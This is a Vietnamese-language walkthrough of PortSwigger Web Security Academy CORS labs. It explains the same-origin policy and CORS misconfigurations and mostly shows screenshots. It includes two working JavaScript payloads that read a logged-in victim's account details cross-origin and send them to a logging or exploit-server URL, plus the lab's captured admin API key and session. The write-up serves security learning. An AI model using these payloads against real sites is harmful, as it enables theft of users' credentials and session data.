## CORS

Câu hỏi đầu tiên:  _Same-Origin Policy (SOP) là gì?_

SOP cho phép các đoạn mã JS chỉ chạy trên website cùng nguồn gốc (same origin). Hai URL được coi là "cùng nguồn gốc" (same origin) khi và chỉ khi cả 3 yếu tố này trùng khớp:

* Giao thức (Protocol): Ví dụ: `http` và `https` là khác nhau.
* Tên miền (Host/Domain): Ví dụ: `example.com` và `://example.com` là khác nhau.
* Cổng (Port): Ví dụ: `http://example.com` (mặc định port 80) và `http://example.com:8080` là khác nhau.... 

nhưng mắc gì hỏi SOP? 

__Vì CORS sinh ra để giải quyết vấn đề mà SOP tạo ra!__

Trong thực tế, các ứng dụng web thường cần gọi API từ các tên miền khác (ví dụ: `frontend.com` gọi API tới `://backend.com`). Để phá vỡ giới hạn của SOP một cách an toàn, các nhà phát triển sử dụng cơ chế CORS (Cross-Origin Resource Sharing). CORS cho phép server đích chỉ định rõ những tên miền nào được phép truy cập dữ liệu của mình.

_nhưng mà lỡ misconfig (ví dụ: 
`
GET /api/user-profile  (chứa thông tin nhạy cảm, dùng cookie để authenticate)
Access-Control-Allow-Origin: *
`) là toang luôn_



# APPRENTICE

## 1, CORS vulnerability with basic origin reflection

cái web này cấu hình CORS không an toàn lắm (cụ thể là trust hết origins...)

login vào bằng wiener:peter







payload
```
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://0aa3005403a6f20380d2711f00d1009f.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location='/log?key='+this.responseText;
    };
</script>
```





decode ra cho dễ đọc



```
{
  "username": "administrator",
  "email": "",
  "apikey": "I35A0znKKam5BztJf0RABN6ZeatwH8Ti",
  "sessions": ["pyOiQKl2PVfSCLLrBdT7zkQB2DK5asYl"]
}
```



## 2, CORS vulnerability with trusted null origin





payload

```
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://0ae50093043b081a8009080b008700c2.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();
    function reqListener() {
        location='https://exploit-0aab001a049f080f805807aa01b9001c.exploit-server.net/log?key='+encodeURIComponent(this.responseText);
    };
</script>"></iframe>
```









# PRACTITIONER

## CORS vulnerability with trusted insecure protocols

















